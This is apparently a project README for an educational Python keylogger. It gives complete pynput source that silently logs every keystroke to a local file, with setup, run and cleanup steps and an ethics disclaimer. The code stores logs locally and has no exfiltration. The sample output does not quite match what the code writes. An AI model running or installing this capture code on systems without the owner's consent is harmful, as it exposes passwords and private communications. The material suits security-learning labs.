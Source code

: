 ## 📝 Project Overview – Simple Keylogger

The **Simple Keylogger** project is a Python-based keystroke logging tool designed for educational use in cybersecurity learning environments. Its primary function is to monitor and record keyboard input in real time, saving each keystroke to a local text file for analysis. Built using the `pynput` library, the keylogger operates silently in the background and captures both standard and special keys (e.g., Enter, Backspace, Space).

This project emphasizes the importance of ethical conduct in cybersecurity. It is strictly intended for use on authorized systems or in lab environments where permission has been granted. By completing this task, learners gain a foundational understanding of how keylogging mechanisms work, as well as the importance of detection and defense techniques used in real-world cybersecurity practice.

---

## 🚀 Features

* **Real-Time Keystroke Logging**
  Captures every key press instantly, including alphanumeric and special keys.

* **File-Based Log Output**
  Logs are written to a plain text file (`keylog.txt`) for easy viewing and analysis.

* **Background Execution**
  The script can run silently in the background, simulating real-world keylogging behavior.

* **Cross-Platform Compatibility**
  Built with Python and `pynput`, the keylogger can work on Linux (Kali), Windows, and macOS systems (with slight modifications).

* **Minimal Resource Usage**
  Lightweight design ensures it does not consume noticeable system resources during operation.

---

## 🎓 Learning Outcomes

By completing this task, you will:

*  Understand how **keyboard input hooks** work in operating systems using Python.
*  Gain experience using the `pynput` library for **event-driven programming**.
*  Learn how to write logs securely to a **persistent file**.
*  Explore the ethical and legal boundaries of **offensive security tools**.
*  Develop the ability to detect or defend against keyloggers through **hands-on awareness**.
*  Practice using **virtual environments** for dependency isolation in modern Linux systems like Kali.

---

# 🛠️ Setup Instructions

**1. I started by creating a folder by running this command on my terminal**
```bash
mkdir Keylogger
cd Keylogger
```
---

**2: Create the Keylogger Script**
Open a terminal and create a new Python script:
```bash
nano keylogger.py
```

Paste the following code into the file:
```python
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

# Start listener
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
**Save and exit:**
Press Ctrl + O to save, Enter to confirm, then Ctrl + X to exit Nano.

---

**3.Create a virtual environment**
In your project directory (~/Keylogger):
```bash
python3 -m venv venv
```
This creates a folder called venv containing an isolated Python environment.

 **Activate the virtual environment**
```bash
source venv/bin/activate
```
Once activated, your prompt will change to show `(venv)` — now you're inside the virtual environment.

**Install pynput inside the virtual environment**
```bash
pip install pynput
```
✅ This will now work without triggering the "externally-managed-environment" error.

---

**4: Run your keylogger**
Still inside the venv, run:
```bash
python keylogger.py
```
The script will begin logging keystrokes into keylog.txt located in the same directory.

---

**5: Check the Logs**
Use cat or any text viewer:
```bash
cat keylog.txt
```

You should see something like:
```csharp
h
e
l
l
o
[Key.space]
w
o
r
l
d
```
**🛑 Stop the Keylogger**
Press Ctrl + C in the terminal window where the script is running to stop it.

---

**6: Optional Cleanup**
If you want to clear the logs and test again:
```bash
rm keylog.txt
```

Or clear contents without deleting:
```bash
echo "" > keylog.txt
```

## 📂 File Structure
```bash
keylogger-kali/
│
├── keylogger.py       # Main keylogger script
├── keylog.txt         # Output file for captured keystrokes
└── README.md          # Project documentation
```
---


> **DISCLAIMER**: This tool is strictly for educational and authorized testing. Do **NOT** deploy it on systems without explicit permission. Unauthorized use may be illegal and unethical.





